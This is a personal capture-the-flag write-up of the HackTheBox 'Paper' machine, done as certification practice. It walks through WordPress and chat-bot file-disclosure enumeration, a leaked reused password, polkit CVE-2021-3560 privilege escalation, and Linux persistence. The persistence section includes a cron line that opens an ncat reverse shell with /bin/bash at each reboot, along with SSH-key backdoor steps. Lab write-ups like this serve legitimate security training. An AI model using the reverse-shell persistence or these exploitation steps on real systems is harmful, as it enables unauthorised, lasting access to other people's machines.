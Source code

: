 
# Paper Writeup

Name: Paper
Date:  14/12/2022
Difficulty:  Easy
Goals:  OSCP Preparation
Learnt:
- Kick the head with the password reuse, because has always seemed alien to me 
- Run multiple Scripts and attempts of the same script

## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Paper/Screenshots/ping.png)

Nikto reveals a office.paper, add to /etc/host with:
```bash
echo "$ip office.paper" | sudo tee -a /etc/hosts
```
Made a mistake that cost me time which was to add .htb to the end. Positive positives. 

Feroxbuster directory busting reveals it is a wordpress site. The blundertiffin site:
![blundertiffin](Screenshots/blundertiffin.png)

```bash
wpscan --url -e --api-token $apikey -o $output-file
```

Then tried: [exploitdb](https://www.exploit-db.com/exploits/47690) for the sccret correspondence:
![secret](Screenshots/secret-wp.png)

Registering an account on the rocket.chat, seems like the box is american office themed. recyplops is a bot on the chat reading required: ![1000](Screenshots/recyclops.png)

Recyclops has directory traversal and file inclusion vulnerablity:

![one](Screenshots/recyclops-exp0.png)

After looking around I found credentials in the hubot/.env file

![creds](Screenshots/hubot-env.png)

![denied](denied-by-dwight.png)

`Queenofblad3s!23`

## Foothold

..but Dwight does use the same password for recyclops and himself:

![](same-password.png)

## PrivEsc
```bash
uname -a

Linux paper 4.18.0-348.7.1.el8_5.x86_64 #1 SMP Wed Dec 22 13:25:12 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```


Linpeas highlighed 
![1000](badpath.png)

Amusing the creator of the box has Secnigma CVE-2021-3960, which failed to find...

![](cron.png)

![1000](interestingfiles.png)

## Returning to Root and Beyond Root

To keep my head sloshing with quality Privilege Escalation experiences while I am trying to get Cloud Certified and power on through these attempts. Furthermore Beyond Root for this box is a to play with the wordpress configuration and try three modern Linux Persistence techniques. I decided to [hack and chill with the Funday Sunday (title says Funday,but apparently its Nooby Tuesday)with Alh4zr3d](https://www.youtube.com/watch?v=QeJ4IcwD9ig) to mix up my day and to finish this. I will check 3 other writeups to check (they were all the same) for alternate route especially if Wordpress configuration is just me reading configuration files.  

Alh4zr3d uses the command injection to get a reverse shell. Amusing the creator of the box has Secnigma CVE-2021-3960, which failed to find... which did not show up in my Linpeas.sh even though it did for Al and I could run another Linux Exploit suggester script. No problem.. [Here we go](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation) 
TL;DR - explaination of the exploit: race condition, where the exploitation beats check in polkit by sending and closing a request while polkit is still processing the request, because we are UID 0 at at the point we can write a new user and password in the wheel group (sudo group) so you can `sudo su` as that user to becom e root.

![](newroot.png)

## Wordpress configuration

Has a `.nmp` for the bot, dmiffinblog contain the wordpress site. I just read some of the files here to see what they did

## Linux Persistence

1. ssh key generation - https://attack.mitre.org/techniques/T1098/004
```bash
cat /etc/ssh/sshd_config
# configure to root to login
ssh-keygen 
chmod 600 id_rsa
```

1. cronjob 
```bash
(crontab -l ; echo "@reboot sleep 200 && ncat $REVADD 1337 -e /bin/bash")|crontab 2> /dev/null
```

3. reseached modern linux persistence

There is no desktop:
https://attack.mitre.org/techniques/T1547/013 - By default, XDG autostart entries are stored within the `/etc/xdg/autostart` or `~/.config/autostart` directories and have a .desktop file extension.

No systemd
https://attack.mitre.org/techniques/T1543/002 - Systemd service
